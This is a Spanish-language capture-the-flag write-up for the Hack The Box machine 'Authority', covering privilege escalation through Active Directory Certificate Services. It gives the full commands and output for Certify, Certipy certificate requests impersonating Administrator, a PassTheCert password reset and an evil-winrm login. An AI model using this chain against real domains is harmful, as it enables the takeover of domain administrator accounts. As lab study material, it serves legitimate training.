 Tras una vuelta por los directorios de la máquina y no encontrar mucha cosa, veo un directorio **Certs** en **C:\\** lo  cual es poco común, así que pienso que la escalada puede ir por ahí...

Me traigo el **certify.exe** de la siguiente forma:
```powershell
PS C:\Users\svc_ldap\Desktop> upload /ruta/del/archivo/certify.exe
```

Y lanzo el siguiente comando para buscar vulnerabilidades.
```powershell
PS C:\Users\svc_ldap\Desktop> ./Certify.exe find /vulnerable
```
![[captura8.png]]
Aquí podéis ver que está pasando realmente [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)

Desde nuestra máquina de atacante con la herramienta **impacket-addcomputer** podemos añadir un nuevo equipo en la máquina víctima gracias al permiso **SeMachineAccountPrivilege**, para posteriormente Solicitar un certificado para suplantar al usuario **Administrador**.
![[captura7.png]]

Solicitud de certificado con **certypy**:
```bash
certipy req -username "CAHOn3R$" -p "cahoner123" -dc-ip 10.10.11.222 -ca AUTHORITY-CA -upn 'administrator@authority.htb' -template CorpVPN -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Ahora tenemos que extraer la clave privada y el certificado del archivo administrator.pfx, una vez hecho esto con la herramienta que os comparto por aquí: [passthecert.py](https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py) ya podemos ejecutar comandos, así que procedemos a cambiarle la contraseña al usuario administrator.

```bash
> python3 passthecert.py -crt user.crt -key user.key -dc-ip 10.10.11.222 -domain authority.htb -action modify_user -target administrator -new-pass cahoner123
```

```bash
❯ evil-winrm -i 10.10.11.222 -u 'administrator' -p 'cahoner123'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
htb\administrator
```
¡Ya podemos leer el flag del usuario root!


